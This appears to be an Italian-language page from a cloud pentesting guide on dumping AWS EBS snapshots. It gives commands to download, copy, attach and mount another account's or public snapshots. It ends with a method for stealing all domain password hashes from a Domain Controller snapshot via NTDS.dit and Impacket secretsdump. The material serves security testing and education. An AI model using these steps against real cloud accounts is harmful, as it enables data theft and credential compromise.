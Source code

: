 # AWS - EBS Snapshot Dump

{{#include ../../../../banners/hacktricks-training.md}}

## Controllare uno snapshot localmente
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
> [!CAUTION]
> **Nota** che `dsnap` non ti permetterà di scaricare snapshot pubblici. Per aggirare questo, puoi fare una copia dello snapshot nel tuo account personale e scaricare quello:
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
Per ulteriori informazioni su questa tecnica, controlla la ricerca originale in [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Puoi farlo con Pacu utilizzando il modulo [ebs\_\_download_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs__download_snapshots)

## Controllare uno snapshot in AWS
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
**Montalo in una VM EC2 sotto il tuo controllo** (deve essere nella stessa regione della copia del backup):

Passo 1: Deve essere creato un nuovo volume della dimensione e tipo preferiti andando su EC2 –> Volumi.

Per poter eseguire questa azione, segui questi comandi:

- Crea un volume EBS da allegare all'istanza EC2.
- Assicurati che il volume EBS e l'istanza siano nella stessa zona.

Passo 2: L'opzione "allega volume" deve essere selezionata facendo clic con il tasto destro sul volume creato.

Passo 3: L'istanza dalla casella di testo dell'istanza deve essere selezionata.

Per poter eseguire questa azione, usa il seguente comando:

- Allegare il volume EBS.

Passo 4: Accedi all'istanza EC2 e elenca i dischi disponibili usando il comando `lsblk`.

Passo 5: Controlla se il volume ha dati utilizzando il comando `sudo file -s /dev/xvdf`.

Se l'output del comando sopra mostra "/dev/xvdf: data", significa che il volume è vuoto.

Passo 6: Format il volume nel filesystem ext4 usando il comando `sudo mkfs -t ext4 /dev/xvdf`. In alternativa, puoi anche usare il formato xfs utilizzando il comando `sudo mkfs -t xfs /dev/xvdf`. Si prega di notare che dovresti usare o ext4 o xfs.

Passo 7: Crea una directory a tua scelta per montare il nuovo volume ext4. Ad esempio, puoi usare il nome "newvolume".

Per poter eseguire questa azione, usa il comando `sudo mkdir /newvolume`.

Passo 8: Monta il volume nella directory "newvolume" usando il comando `sudo mount /dev/xvdf /newvolume/`.

Passo 9: Cambia directory nella directory "newvolume" e controlla lo spazio su disco per convalidare il montaggio del volume.

Per poter eseguire questa azione, usa i seguenti comandi:

- Cambia directory in `/newvolume`.
- Controlla lo spazio su disco usando il comando `df -h .`. L'output di questo comando dovrebbe mostrare lo spazio libero nella directory "newvolume".

Puoi farlo con Pacu utilizzando il modulo `ebs__explore_snapshots`.

## Controllare uno snapshot in AWS (utilizzando cli)
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
## Shadow Copy

Qualsiasi utente AWS in possesso del permesso **`EC2:CreateSnapshot`** può rubare gli hash di tutti gli utenti del dominio creando un **snapshot del Domain Controller**, montandolo su un'istanza che controllano e **esportando il file NTDS.dit e il registro SYSTEM** per l'uso con il progetto secretsdump di Impacket.

Puoi utilizzare questo strumento per automatizzare l'attacco: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) oppure potresti utilizzare una delle tecniche precedenti dopo aver creato uno snapshot.

## References

- [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{{#include ../../../../banners/hacktricks-training.md}}
